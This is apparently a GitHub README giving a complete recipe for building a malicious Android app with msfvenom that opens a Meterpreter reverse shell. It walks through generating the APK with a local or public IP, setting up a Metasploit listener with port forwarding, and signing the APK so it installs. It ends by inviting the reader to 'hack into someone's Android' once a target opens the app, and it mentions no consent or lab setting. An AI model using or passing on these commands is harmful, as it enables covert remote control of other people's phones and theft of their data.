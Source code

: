 # Metasploitandroid
Set up Metsploit Venom to generate a malicious Android app with a reverse shell

To do this, we need to run some commands on Linux.

1. Generate an .apk using msfvenom
   msfvenom -p android/meterpreter/reverse_tcp LHOST=<your_IP> LPORT=<your_port> -o malicious.apk
   Replace <your_IP> with your local or public IP.
   Public IP will be needed if the person downloading the APK is out of your local network.
   To get your public IP, visit https://whatismyipaddress.com or curl ifconfig.me on linux.
   Replace <your_port> with the port you’ll be listening on, e.g. 4444
With a local IP, the command looks like this: msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -o malicious.apk
With a public IP, the command might look like this: msfvenom -p android/meterpreter/reverse_tcp LHOST=45.67.89.123 LPORT=4444 -o malicious.apk. You'll also need to set up port forwarding here.

2. Then, set up the Metasploit listener to listen to the incoming requests.
   - For Local IP set-up:
   msfconsole
   use exploit/multi/handler
   set payload android/meterpreter/reverse_tcp
   set LHOST 192.168.1.100   #this is your local IP address
   set LPORT 4444
   exploit

   - For Public IP set-up:
   msfconsole
   use exploit/multi/handler
   set payload android/meterpreter/reverse_tcp
   set LHOST 0.0.0.0   # this allows all the request from the internet WAN/LAN
   set LPORT 4444
   exploit

3. Sometimes the APK might not install and ask for a signing. This is an added security check by Android, so we need to sign our malicious.apk file as well.
   Usually, it's available with Android Studio in Windows.
   In Linux, you can install apksigner. It comes with the Android SDK. If you don’t have it, install zipalign and apksigner using: sudo apt install apksigner zipalign -y 
   The command to sign the apk is:
   keytool -genkey -v -keystore my-release-key.keystore -alias my-key-alias -keyalg RSA -keysize 2048 -validity 10000
   jarsigner -verbose -sigalg SHA1withRSA -digestalg SHA1 -keystore my-release-key.keystore malicious.apk my-key-alias

5. Once the target installs and opens the APK, you should see a Meterpreter session open in Metasploit:
   meterpreter >
   Now, your reverse shell is good to go, and you can try commands to hack into someone's Android.

  


